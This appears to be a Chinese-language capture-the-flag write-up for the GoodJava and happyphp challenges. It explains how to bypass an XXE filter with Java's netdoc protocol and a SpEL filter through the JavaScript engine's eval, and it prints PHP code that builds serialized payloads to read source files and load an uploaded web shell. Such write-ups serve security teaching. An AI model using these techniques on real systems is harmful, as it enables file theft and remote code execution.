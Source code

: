 这里有个小考点，这里限制了xml数据不能含有file（大小写），而我们需要读取/passwd

这里有个trick，Java里面有个伪协议netdoc，作用和file一致，都是读取文件，所以这一步很简单，把file换成netdoc即可

注意一下本地构造包名也必须一致哦，不仅仅是类名一致就行

Man类加一个writeObject即可

详细步骤可以看看https://github.com/p4-team/ctf/tree/master/2019-09-07-trendmicro-quals/exploit_300

![](https://ctfwp.wetolink.com/2019unctf/GoodJava/36bbca702b3e8ade40ea645de909d011.png)

exp

![](https://ctfwp.wetolink.com/2019unctf/GoodJava/4dae53f0d9bdeb07a991c9c2e70d78c2.png)

output

![](https://ctfwp.wetolink.com/2019unctf/GoodJava/003d4fd61709ab1fd5ea1d270ed823ce.png)

###### 第二步

然后就是第二步，考点是代码执行绕过

这里有个SPEL注入，可以构造任意类，但是同样代码过滤了Runtime|ProcessBuilder|Process

这三个Java中执行命令的类，题目提示必须执行命令才能拿到flag，然后Java又是强类型语言，很多操作不像php那么动态，所以这一步可能会难住很多人

然后这里有个trick，java内部有个javascript的解析器，可以解析javascript，而且在javascript内还能使用java对象

我们就可以通过javascript的eval函数操作

T(javax.script.ScriptEngineManager).newInstance().getEngineByName("js").eval("xxxxxxxxx")

由于不能使用关键字，我们可以通过字符串拼接来

juke.outofmemory.cn/entry/358362

exp里面也有对应的转换脚本

![](https://ctfwp.wetolink.com/2019unctf/GoodJava/0f2c349f76ddb214627f26e8b387f5dd.png)

exp

![](https://ctfwp.wetolink.com/2019unctf/GoodJava/d70f4dd73c1f6dc5e2cb3974ab6e8f9d.png)

output

![](https://ctfwp.wetolink.com/2019unctf/GoodJava/55f46b48d5d3e37080e089798b5b722f.png)


### happyphp

```
<?php

class Server{
    public $file;
}

$a = new Server;
$a->file = "php://filter/read=convert.base64-encode/resource=files_upload_api.php";
echo urlencode(serialize($a));

echo "<br>";

$a = new Server;
$a->file = "LXJuploadspaht/shell.jpg"; //你上传的shell
echo urlencode(serialize($a));
```
